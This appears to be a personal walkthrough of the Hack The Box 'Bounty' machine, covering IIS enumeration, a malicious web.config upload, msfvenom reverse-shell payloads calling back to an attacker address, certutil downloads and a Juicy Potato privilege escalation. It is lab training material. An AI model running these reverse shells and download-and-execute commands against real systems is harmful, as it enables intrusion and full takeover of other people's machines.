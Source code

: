 # Enumeration 

## open ports
```
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: Bounty
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
### Port 80


![[Pasted image 20230117035251.png]]

![[Pasted image 20230117035301.png]]
/Transfer.aspx

![[Pasted image 20230117044659.png]]

trying to upload web.config using [Script](https://github.com/checkymander/CTF-Scripts/blob/master/RCE-Web.config)
and it got uploaded successfully now let's get a reverse shell 
using 
![[Reverse Shells#aspx web.config]]
first we generate a reverse shell
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.19 LPORT=4444  -f exe -o rev.exe`
and change values in the script then upload it to the target
now we visit the directory we found earlier called uploadedfiles
![[Pasted image 20230117051919.png]]


![[Pasted image 20230117051030.png]]
we are in


# Privesc 

![[Pasted image 20230117051052.png]]
potato time

first we generate new reverse shell
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.19 LPORT=4443  -f exe -o rev2.exe`
upload it
`certutil -urlcache -f http://10.10.16.19/rev2.exe rev2.exe`
``
upload juicy potato to the target and execute it
`certutil -urlcache -f http://10.10.16.19/jp.exe jp.exe`
`jp.exe -t * -p rev2.exe -l 9001 `
![[Pasted image 20230117051638.png]]
![[Pasted image 20230117051808.png]]
for some reason can't see user flag inside /merlin/desktop
![[Pasted image 20230117052734.png]]
so running 
`where /R c:\users user.txt`
![[Pasted image 20230117052652.png]]
Well that was weird 

---
Tags: #ctf #htb #potato #aspx #iis 
Resources: [Bounty](https://app.hackthebox.com/machines/142)